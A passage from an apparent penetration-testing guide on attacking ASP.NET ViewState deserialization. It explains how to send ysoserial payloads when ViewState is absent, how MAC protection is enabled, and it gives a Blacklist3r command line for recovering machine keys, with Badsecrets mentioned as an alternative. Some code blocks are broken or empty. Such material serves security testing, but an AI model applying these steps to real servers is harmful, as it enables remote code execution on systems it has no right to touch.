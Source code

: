 Developers can **remove ViewState** from becoming part of an HTTP Request (the user won't receive this cookie).\
One may assume that if **ViewState** is **not present**, their implementation is **secure** from any potential vulnerabilities arising with ViewState deserialization.\
However, that is not the case. If we **add ViewState parameter** to the request body and send our serialized payload created using ysoserial, we will still be able to achieve **code execution** as shown in **Case 1**.

### Test Case: 2 – .Net < 4.5 and EnableViewStateMac=true & ViewStateEncryptionMode=false

In order to **enable ViewState MAC** for a **specific page** we need to make following changes on a specific aspx file:

```bash
<%@ Page Language="C#" AutoEventWireup="true" CodeFile="hello.aspx.cs" Inherits="hello" enableViewStateMac="True"%>
```
```
We can also do it for **overall** application by setting it on the **web.config** file as shown below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>

 
 
</system.web>
</configuration>
```
```
As the parameter is MAC protected this time to successfully execute the attack we first need the key used.

You can try to use [[https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper|**Blacklist3r(AspDotNetWrapper.exe)** ]]to find the key used.

```
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate --modifier=6811C9FF --macdecode --TargetPagePath "/Savings-and-Investments/Application/ContactDetails.aspx" -f out.txt --IISDirPath="/"

--encrypteddata : __VIEWSTATE parameter value of the target application
--modifier : __VIWESTATEGENERATOR parameter value
```
```
[[https://github.com/blacklanternsecurity/badsecrets|**Badsecrets**]] is another tool which can identify known machineKeys. It is written in Python, so unlike Blacklist3r, there is no Windows dependency. For .NET viewstates, there is a "python blacklist3r" utility, which is the quickest way to use it.
